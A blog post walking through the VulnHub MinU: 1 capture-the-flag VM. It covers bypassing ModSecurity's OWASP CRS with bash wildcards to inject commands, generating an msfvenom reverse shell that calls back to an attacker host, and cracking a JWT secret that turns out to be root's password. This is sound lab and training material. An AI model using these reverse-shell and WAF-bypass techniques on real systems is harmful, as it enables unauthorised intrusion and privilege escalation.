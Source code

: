 ```yaml
---
layout: post
title: "MinU: 1 Walkthrough"
subtitle: "O, wasp!"
date: 2018-09-11 08:10:53 +0000
category: Walkthrough
tags: [VulnHub, MinU]
comments: true
image:
  feature: minu-1-walkthrough.jpg
  credit: umsiedlungen / Pixabay
  creditlink: https://pixabay.com/en/insect-wasps-hornets-hornissennest-3270233/
---
```


This post documents the complete walkthrough of MinU: 1, a boot2root [VM][1] created by [8bitsec][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## Background

This boot2root is an Ubuntu Based virtual machine and has been tested using VirtualBox. The network interface of the virtual machine will take it's IP settings from DHCP. Your goal is to capture the flag on `/root`.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.129
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.27
|_http-server-header: Apache/2.4.27 (Ubuntu)
|_http-title: 403 Forbidden
```

This should be fun. `nmap` finds one open port: `80/tcp`.

## Directory/File Enumeration

Let's use `wfuzz` to fuzz the site and see what we are up against.

![ad2513b7.png](/assets/images/posts/minu-1-walkthrough/ad2513b7.png)

Something's up. There's way too many `403`s. Probably some Rewrite rules and/or a Web Application Firewall (WAF) are in place.

![cfa688d8.png](/assets/images/posts/minu-1-walkthrough/cfa688d8.png)

Now, this is more like it.

## ModSecurity (OWASP CRS)

Let's use `wafw00f` to determine if there's a WAF in place.

![c7c5625b.png](/assets/images/posts/minu-1-walkthrough/c7c5625b.png)

Damn.

Let's not get too hung up on the WAF. Check out the HTML source code of `/test.php`.

![a4e318e4.png](/assets/images/posts/minu-1-walkthrough/a4e318e4.png)

Looks like there's an intention to delay loading with JavaScript. Let's disable JavaScript.

![0cbd15e7.png](/assets/images/posts/minu-1-walkthrough/0cbd15e7.png)

No js yay! But, are we looking at a Local File Inclusion (LFI) vulnerability here?

![a675067c.png](/assets/images/posts/minu-1-walkthrough/a675067c.png)

![db603633.png](/assets/images/posts/minu-1-walkthrough/db603633.png)

Anyway, long story short. It's not LFI, it's something else—remote command execution. Basically, this is an exercise in bypassing OWASP CRS.

## Remote Command Execution

Don't believe it? Look here.

![825b6ba6.png](/assets/images/posts/minu-1-walkthrough/825b6ba6.png)

What do you see? The `file` parameter accepts a pipe (`|`) character and the `rev` command, resulting in the contents of `last.html` reversed. You know what, it's always better to see it in `curl`.

![2ae77265.png](/assets/images/posts/minu-1-walkthrough/2ae77265.png)

Voila. This is indeed an exercise to bypass OWASP CRS to execute commands.

A tutorial on how ModSecurity and OWASP CRS work is beyond the scope of this walkthrough. Suffice to say, they work based on pattern matching hella of complex looking regular expressions.

Because `bash` enables wildcards (asterisk `*` and question mark `?`) for globbing in the VM, we can leverage that to bypass the OWASP CRS filters.

Here's an example to view `/etc/passwd`.

![bddf976d.png](/assets/images/posts/minu-1-walkthrough/bddf976d.png)

Here's an example to execute the `ls` command.

![4d486a76.png](/assets/images/posts/minu-1-walkthrough/4d486a76.png)

## Low-Privilege Shell

We can now make use of the above to give ourselves a low-privilege shell. We'll pull a reverse shell (generated with `msfvenom`) with `wget`, but first we need to determine whether the OS is 32-bit or 64-bit with `uname`.

![0e944f46.png](/assets/images/posts/minu-1-walkthrough/0e944f46.png)

Generate a reverse shell with `msfvenom`.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.30.128 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rev
```

Host it with Python's SimpleHTTPServer.

```
# python -m SimpleHTTPServer 80
```
Download the reverse shell like so.

![61a81256.png](/assets/images/posts/minu-1-walkthrough/61a81256.png)

Check if the download was successful.

![3e850ebc.png](/assets/images/posts/minu-1-walkthrough/3e850ebc.png)

Now, make `rev` executable with `chmod`.

![86487420.png](/assets/images/posts/minu-1-walkthrough/86487420.png)

![7b89128e.png](/assets/images/posts/minu-1-walkthrough/7b89128e.png)

Time to execute the reverse shell. Before we do that, let's set up our `nc` listener.

![e8ba719c.png](/assets/images/posts/minu-1-walkthrough/e8ba719c.png)

Hooray. A shell at last.

![911cdd4d.png](/assets/images/posts/minu-1-walkthrough/911cdd4d.png)

## Privilege Escalation

During enumeration of `bob`'s account, I noticed the presence of a JSON web token (JWT) in `/home/bob/._pw_`. Here's how it looks like.

![7ae14d04.png](/assets/images/posts/minu-1-walkthrough/7ae14d04.png)

JWT has three parts in this format:

```
base64(header).base64(payload).base64(signature)
```

1. `header` specifies the algorithm and the type in JSON.
2. `payload` specifies the claim of the token, also in JSON.
3. `signature` is the digital signature of the encoded header and payload.

There's a online [debugger](https://jwt.io/#debugger) that we can use to find out the header and payload.

![bb1a57ab.png](/assets/images/posts/minu-1-walkthrough/bb1a57ab.png)

Judging by the file name, I guess we need to crack the JWT to determine the secret used in HS256 to create the signature.

## JWT Cracker

Searching for "jwt crack github" in Google gave plenty of results. I decided on [c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker) based on performance considerations—it's multi-threaded and written in C.

Cracking the JWT with it, is crazy fast compared to the rest.

![0aecce8c.png](/assets/images/posts/minu-1-walkthrough/0aecce8c.png)

## What's the Flag (WTF)

It turns out that the secret is `root`'s password. With that, getting the flag is trivial.

![f5afe660.png](/assets/images/posts/minu-1-walkthrough/f5afe660.png)

:dancer:

## Afterthought

I had a fun time trying out different JWT crackers. :laughing:

[1]: https://www.vulnhub.com/entry/minu-1,235/
[2]: https://twitter.com/@_8bitsec
[3]: https://www.vulnhub.com/
